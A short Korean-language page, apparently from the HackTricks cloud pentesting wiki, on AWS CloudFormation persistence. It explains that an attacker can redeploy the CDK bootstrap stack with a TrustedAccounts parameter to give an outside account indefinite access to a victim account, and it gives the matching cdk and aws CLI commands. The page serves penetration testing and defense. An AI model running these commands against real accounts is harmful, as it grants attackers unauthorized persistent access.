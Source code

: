 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

자세한 정보는 다음을 참조하세요:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK는 `CDKToolkit`이라는 CFN 스택을 배포합니다. 이 스택은 외부 계정이 피해자 계정에 CDK 프로젝트를 배포할 수 있도록 하는 `TrustedAccounts`라는 매개변수를 지원합니다. 공격자는 이를 악용하여 AWS cli를 사용하여 매개변수와 함께 스택을 재배포하거나 AWS CDK cli를 사용하여 피해자 계정에 무기한 접근 권한을 부여할 수 있습니다.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
